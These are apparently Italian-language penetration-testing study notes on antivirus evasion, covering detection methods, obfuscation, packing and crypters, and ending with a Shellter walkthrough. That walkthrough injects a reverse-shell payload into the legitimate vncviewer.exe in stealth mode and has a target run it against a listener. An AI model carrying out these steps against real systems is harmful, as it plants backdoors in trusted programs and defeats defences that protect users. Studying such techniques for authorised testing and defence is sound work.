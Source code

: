 
# AV Evesion
L'evasione dei sistemi di difesa consiste in un insieme di tecniche che vengono  utilizzate per evitare il rilevamento durante un attacco. <br>
Le tecniche usate incudono la disinstallazione/disabilitazione dei software di sicurezza (antivirus) o l'offuscamento/crittografia dei dati degli scripts. <br>
Tutto consiste nel cambiare o mascherare la firma degli script dannosi. <br>

Una firma é una sequenza di byte, o una stringa di testo univoca, che identifica in modo univoco dei malware, dei file o degli eseguibili malevoli.  

---

### AV Detection Methods
I software antivirus usano due tipi di analisi per individuare un codice malevolo: 
- analisi basata sulla firma: é il metodo di rilevazione piú antico e piú usato attualmente. Uno dei piú conosciuti é Windows Defender. <br>
consiste nella ricerca della firma del file su un database di firme che fanno riferimento a file malevoli. il miglior metodo é quello di inniettare un payload malevolo dentro un file legittimo in modo tale che la firma per quel payload sia la stessa del file legittimo. 

- analisi euristica: si basa su una serie di regole o decisioni per determinare se un binario o un eseguibile sia dannoso cercando dei modelli specifici dentro al codice del programma

- analisi basata sul comportamento: é molto efficiente contro i nuovi malware e si basa sul comportamento del file dando un occhiata a quali azioni compie il file per vedere se va a toccare i registri di windows o ha qualche comportamento sospetto cosí da segnalarlo come malevolo. 

---

### AV Evasion Methods
i metodi di evasione per i sistemi di sicurezza si dividono in: 
1. Evasione On-Disk
   - offuscamento: si riferisce al procedimento di occultamento di qualcosa di importante, prezioso o critico. Quello che fa é riorganizzare il codice in modo da non essere rilevato dai sistemi di rilevamento
   - codifica: é un processo che comporta la modifica dei dati in un nuovo formato utilizzando un precisco schemda di codifica. il vantaggio é che quando si codifica un codice con un determinato schema, esso é facilmente reversibile.
   - Packing: consiste nel generare un eseguibile con una nuova struttura binaria con una dimenzione piú piccola fornendo un payload con una nuova firma.
   - Cryptas: consiste nel crittografare il codice o il payload per poi decrittografarlo in memoria conservando la chiave di decrittografia dentro uno stub. 
   
2. Evasione On-Memory
   - si basano sulla manipolazione della memoria e non sul disco. Implica l'iniezione di payload in un processo sfruttando vari API di Windows e il payload viene eseguito in memoria in un file separato. 

---

## Shellter
Shellter é uno strumento dinamico che permette di infettare file eseguibili **32 bit** per sistemi **Windows x32/x64** con un payload, come ad esempio una reverse shell, senza alterare il normale funzionamento del programma originale. Si tratta di un cosiddetto injector polimorfico, capace di analizzare dinamicamente il codice dell’eseguibile per trovare i punti migliori in cui inserire il codice malevolo, rendendo l’operazione più difficile da individuare da parte degli antivirus tradizionali.

La documentazione si trova a questo <a href="https://www.shellterproject.com/introducing-shellter/">link</a>

per poterlo installare: 
```bash
sudo apt-get install shellter -y 
```
shellter é in realtá un eseguibile windows e per poterlo eseguire su linux dobbiamo usare `wine`. 
per installare wine: 
```bash
sudo dpkg --add-architecture i386
sudo apt-get install wine32
```
e cosí possiamo eseguire shellter su linux usando wine: 
```bash
cd /usr/share/windows-resources/shellter
ls -la
sudo wine shellter.exe
```
per poter inniettare shellter dentro un eseguibile windows possiamo andare nella cartelle `windows-binaries` su kali linux che include vari binari legittimi di windows per prendere il binario `vncviewer`: 
```bash
cp /usr/share/windows-binaries/vncviewer.exe /home/kali/Desktop
sudo wine shellter.exe
A
/home/kali/Desktop/vncviewer.exe
# dopo un pó di tempo ci verrá chiesto di abilitare la stealth mode
y
L
1
<LHOST>
<LPORT>
```
avremo cosí il nostro eseguibile modificato e quello che abbiamo dato a shellcode precedentemente verrá messo nelle sua cartella di backup.
ora dovremo solo avviare un multi handler con il payload impostato e far eseguire l'applicazione .exe modificata sul target. 
